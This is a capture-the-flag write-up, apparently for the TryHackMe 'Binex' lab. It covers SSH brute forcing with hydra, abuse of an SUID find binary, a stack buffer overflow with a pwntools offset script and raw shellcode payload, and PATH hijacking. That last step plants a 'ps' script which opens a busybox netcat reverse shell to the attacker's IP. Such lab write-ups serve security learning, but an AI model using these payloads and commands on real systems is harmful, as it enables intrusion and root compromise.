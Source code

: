 # Binex

### Binex
Nmap scan shows ports 22,445 and 139 open. `smbclient` reveals THM_EXPLOIT workgroup:<br />
![Screenshot 2025-04-11 114143](https://github.com/user-attachments/assets/fd015d16-f08e-4973-a5fd-460692750dd2)<br />
`enum4linux` shows available users:<br />
![image](https://github.com/user-attachments/assets/78956835-0f5f-4d50-ba70-ef9b24b92db0)<br />
Now that I know users, I can try to bruteforce ssh login with those username, and after a while I was able to find `tryhackme`'s ssh password with `hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt ssh://10.10.64.65`. Now I need to become `des` user. Now I use the following command to find SUID binaries: `find / -perm -04000 2>/dev/null`:<br />
![Screenshot 2025-04-11 133452](https://github.com/user-attachments/assets/b0b9a4fb-a291-40ed-8d18-00a482767e08)<br />
There's the SUID on `find`. GTFObins shows how to exploit it. Just run the following command:<br />
![Screenshot 2025-04-11 133623](https://github.com/user-attachments/assets/99b387e0-5e78-415f-b630-be1940afa62a)<br />
Now I need to exploit a buffer overflow on a binary owned by `kel`. The source code of this binary is the following:

    #include <stdio.h>
    #include <unistd.h>
    
    int foo(){
            char buffer[600];
            int characters_read;
            printf("Enter some string:\n");
            characters_read = read(0, buffer, 1000);
            printf("You entered: %s", buffer);
            return 0;
    }
    
    void main(){
            setresuid(geteuid(), geteuid(), geteuid());
            setresgid(getegid(), getegid(), getegid());
    
            foo();
    }
The buffer is 600 bytes long, but the code allows me to prompt up to 1000 bytes. This means that I can overflow the buffer and do some damage. There's no `win` function to return to, however if I run checksec I get this:<br />
![image](https://github.com/user-attachments/assets/c92139d1-610a-4d3a-b54d-d9a8dbfd2c69)<br />
There's no stack canary that prevents me to overwrite the return address, and the NX is disabled, meaning that code can be executed on the stack. This means that the idea is to put some shellcode into the buffer and then overwrite the return address with the address of the shellcode.<br />
First of all I need to find the offset to overwrite the Instruction Pointer. To do that I'll use the following script (note that I transfered the binary on my machine):

    from pwn import *
    
    io = process('./thelibrarian')
    print(io.recvregex(b':')) # read until we get the prompt
    
    io.recvline()
    io.sendline(cyclic(500))
    io.wait()
    core = io.corefile
    stack = core.rsp
    info("rsp = %#x", stack)
    pattern = core.read(stack, 4)
    rip_offset = cyclic_find(pattern)
    info("rip offset is %d", rip_offset)
![image](https://github.com/user-attachments/assets/30ce513d-8724-4366-8c7b-199a675a2db2)<br />
So the offset is `616`.
Final payload to exploit the binary is: `	
(python -c 'print("\x90"* (616 - 27 - 50) + "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" + "\x90" * 50 + "\x7c\xe3\xff\xff\xff\x7f\x00\x00")'; cat) | ./bof`.

<br /><br />
Now, as `kel`, I need to exploit the following SUID binary:

    #include <unistd.h>
    
    void main()
    {
            setuid(0);
            setgid(0);
            system("ps");
    }
The idea is simple, just create a custom malicious `ps` file in my own directory, then change the PATH environment variable to first look inside `kel`'s home directory. <br />
So, first run `export PATH=/home/kel:$PATH`, then create a custom file called `ps` that has the following content (adapt to your IP addr and port):

    #!/bin/bash
    busybox nc 10.11.127.156 9001 -e sh
Now run `chmod +x ps`, open a netcat listener on your machine and then just run `./exe` to get a reverse root shell!
